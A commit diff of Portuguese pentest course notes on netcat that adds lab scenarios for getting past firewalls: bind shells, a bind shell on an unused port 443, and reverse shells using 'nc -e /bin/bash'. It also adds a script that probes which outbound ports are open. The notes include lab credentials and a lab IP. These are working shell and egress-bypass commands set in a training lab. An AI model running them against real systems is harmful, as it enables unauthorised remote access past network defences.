

Before and after one commit to ArantesVini/desec-npp, a Markdown page: 14-Swiss Army Knife/aulas.md, the part around the change. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
notes about firewall bypass

````diff
--- a/14-Swiss Army Knife/aulas.md
+++ b/14-Swiss Army Knife/aulas.md
@@ -64,3 +64,58 @@ Na maquina atacante usamos `nc -vn {ip alvo} {porta}` e ja temos um shell, podem
 - **Reverse shell** -> Maquina atacante fica esperando uma conexao, maquina alvo conecta e **envia** a shell
 
 No reverse shell, iniciamos com a **maquina do atacante** escutando em uma porta exemplo `nc -vnlp {porta}` e entao na **maquina alvo**  `nc -vn {ip do atacante} {porta} -e cmd.exe # ou /bin/bash para linux` aqui nos conectamos na maquina atacante e enviamos o shell para ela.
+
+
+# Vencendo o Firewall
+
+## Cenario 1 - Bind shell simples
+
+Acesso via SSH conectado a VPN
+IP 172.16.1.5
+root:root
+Local das regras do firewall /home/msfadmin/firewall/
+
+Cenario sem firewall, basta realizar um bind shell, conectado no ssh do alvo, usando o `nc -vnlp 5050 -e /bin/bash` abrimos a shell e na maquina atacante com `nc -vn 172.16.1.5 5050` recebemos a shell.
+
+## Cenario 2 - Bind shell com porta "closed"
+
+Firewall basico
+Acesso direto nao funciona mais
+
+Nesse caso notamos a porta 443 que esta *fechada*. Com nao tem nenhum servico rodando la, conseguimos usar o netcat na maquina alvo novamente com `nc -vnlp 443 -e /bin/bash` e na maquina atacante novamente `nc -vn 172.16.1.5 443` desse forma realizando novamente um bind shell, usando uma porta reconhecida pelo firewall mas sem servico ativo.
+
+## Cenario 3 - Reverse shell basico
+
+Nova regra de firewall, acesso direto nao funciona mais, pois toda entrada esta filtrada.
+
+Nesse caso bind shell nao funciona, pois todo trafego e bloqueado na entrada. Caso perfeito para o reverse shell.
+
+Na maquina do **atacante** abrimos a porta com `nc -vnlp 5050` e na maquina alvo enviamos a shell com `nc -vn {ip} 5050 -e /bin/bash` e recebemos a shell na maquina atacante.
+
+## Cenario 4 - Egress firewall
+
+Regra de firewall restritiva que bloqueia trafego de entrada e saida.
+
+Bypass: Egress Firewall - criar uma forma de tentar estabelecer conexoes de saida, encontrar uma porta valida e fazer o reverse shell usando ela.
+
+Na maquina atacante vamos abrir as portas com um script sh
+```shell
+nc -vnlp 80&
+sleep 2
+nc -vnlp 443&
+sleep2
+nc -vnlp 53&
+netstat -nlpt
+```
+e no servidor fazemos o mesmo script para testar a saida
+```shell
+nc -vn {ip} 80&
+sleep 2
+nc -vn {ip} 443&
+sleep 2
+nc -vn {ip} 53&
+```
+Primeiro executamos na maquina atacante e em seguida na maquina alvo, podemos adicionar um ` | grep "open"` para filtrar apenas as portas abertas.
+No exemplo as tres portas estao disponiveis, entao podemos usar qualquer uma dessas para um reverse shell.
+
+**Em casos praticos** muitas vezes protocolos especificos ficam disponiveis, entao alem de achar a porta correta, temos que achar o protocolo correto.
````
